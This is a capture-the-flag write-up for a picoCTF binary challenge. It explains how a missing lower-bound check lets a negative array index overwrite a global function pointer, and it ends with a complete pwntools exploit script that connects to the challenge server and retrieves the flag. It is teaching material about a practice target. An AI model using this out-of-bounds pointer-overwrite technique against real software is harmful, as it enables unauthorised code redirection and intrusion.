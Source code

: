 # 📘 Write-up: Exploiting Function Pointer Overwrite in `vuln`



---

## 🧠 Challenge Summary

We are given a binary called `vuln`, which asks the user to:

1. Enter a "story" (a string),
2. Enter two integers.

Depending on the ASCII sum of the story, and internal checks, the program may print a flag if a specific condition is met.

---

## 🔍 Source Code Analysis

### Key observations from the source:

```c
void (*check)(char*, size_t) = hard_checker;
int fun[10] = {0};
```

* A global function pointer `check` initially points to `hard_checker`.
* There is an integer array `fun[10]`, used in the vulnerable code.

---

### 🚨 Vulnerability

In this section of the vulnerable function:

```c
scanf("%d %d", &num1, &num2);
if (num1 < 10) {
    fun[num1] += num2;
}
```

There is no lower-bound check on `num1`. This means:

* You can input **negative indices** into the `fun` array.
* So, if `check` is located in memory just **before** `fun`, then `fun[-N]` can **overwrite the `check` function pointer**.

This is known as an **array out-of-bounds write**.

---

### 🔎 Memory Layout Analysis

With some binary inspection (e.g. using `radare2`, `gdb`, `pwndbg`, or `gef`):

```asm
&check = 0x0804C040
&fun   = 0x0804C080
```

So:

```
0x0804C080 - 0x0804C040 = 64 bytes
64 bytes / 4 (int size) = 16
```

Thus:

```c
fun[-16] == *(int*)&check;
```

Perfect! We can overwrite `check`.

---

## 🎯 Goal

Instead of calling `hard_checker(story, len)`, we want it to call:

```c
easy_checker(story, len)
```

This is easier to satisfy and leaks the flag if `calculate_story_score(story) == 1337`.

---

## 🧮 Calculating the Required Payload

### ✅ ASCII Sum == 1337

We need the ASCII sum of the story to be exactly `1337`.

One way:

```py
Z = 90, M = 77
90 * 14 + 77 = 1260 + 77 = 1337
```

So:

```py
story = b"Z" * 14 + b"M"
```

---

### ✅ Overwrite Function Pointer

The offset between `easy_checker` and `hard_checker` is:

```py
easy_checker = 0x080492FC
hard_checker = 0x08049436

easy_checker_offset = easy_checker - hard_checker  # -316
```

So:

```py
fun[-16] += -316  # Effectively changes check = easy_checker
```

We send:

```py
num1 = -16
num2 = -316
```

---

## 🧪 Final Exploit Code

```python
from pwn import *

# ==== Configuration ====
DEBUG = False  # Set to True to run locally
HOST = "saturn.picoctf.net"
PORT = 49960
BINARY = "./vuln"

# ==== Offsets ====
hard_checker = 0x08049436
easy_checker = 0x080492FC
easy_checker_offset = easy_checker - hard_checker  # -316
check_ptr_offset = -16  # Overwrite fun[-16] = check

# ==== Payload ====
story = b"Z" * 14 + b"M"  # ASCII sum = 1337

# ==== Exploit ====
def exploit(p):
    log.info("Sending story with ASCII sum 1337...")
    p.sendlineafter(b">> ", story)

    log.info("Overwriting check pointer with offset -316...")   
    p.sendlineafter(b"10.\n", str(check_ptr_offset).encode())
    p.sendline(str(easy_checker_offset).encode())

    # Read flag
    response = p.recvall(timeout=2).decode(errors="ignore")
    start = response.find("picoCTF{")
    end = response.find("}", start)

    if start != -1 and end != -1:
        flag = response[start:end+1]
        success(f"[+] Flag: {flag}")
    else:
        warning("[!] Flag not found.")
        print(response)

# ==== Launch ====
if DEBUG:
    p = process(BINARY)
else:
    p = remote(HOST, PORT)

exploit(p)
```

---

## 📌 Final Notes

* We exploited an **out-of-bounds array write** to overwrite a **function pointer**.
* This is a classic CTF-style binary exploitation vulnerability.
* No ASLR or stack protection affected this; the overwrite was in the **.bss** section (global data).

---

## 🏁 Sample Output

![result](./img/result.png)


---

